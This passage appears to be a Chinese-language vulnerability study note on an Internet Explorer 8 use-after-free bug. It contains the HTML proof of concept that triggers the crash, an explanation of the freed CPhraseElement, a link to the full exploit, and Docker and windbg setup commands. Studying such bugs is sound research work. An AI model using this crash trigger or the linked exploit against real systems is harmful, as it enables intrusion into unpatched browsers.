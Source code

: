 LFH就是Windows7及之后系统的前端管理。Windows10还增加了segment heap。



6. exp初探

完整exp地址：https://www.exploit-db.com/exploits/28187



crash的html代码如下

```bash
<!DOCTYPE html>
    <script>
        window.onload = function() {
            var x = document.getElementById("a");
            x.outerText = "";
        }
    </script>
        <table>
            <tr>
                <div>
                    <span>
                        <q id='a'>
                            <a>
                                <td></td>
                            </a>
                        </q>
                    </span>
                </div>
            </tr>
        </table>
<html>
```



漏洞产生原因：在CTableRow元素后出现 CPhraseElement x，最后元素是子表元素。

CPhraseElement的outerText属性被free掉了，但是还存在于C++的一些链表中。访问已经free掉的元素，就会造成crash。



Docker启动代码

```bash
docker stop xxxx
docker build -t my-nginx .
docker run -d -p 10001:80 my-nginx
```



Windows中设置postmortem模式

```bash
.\windbg.exe -I
```

IE8访问，发生crash，回顾知识点，这是由于UAF和虚函数的使用。
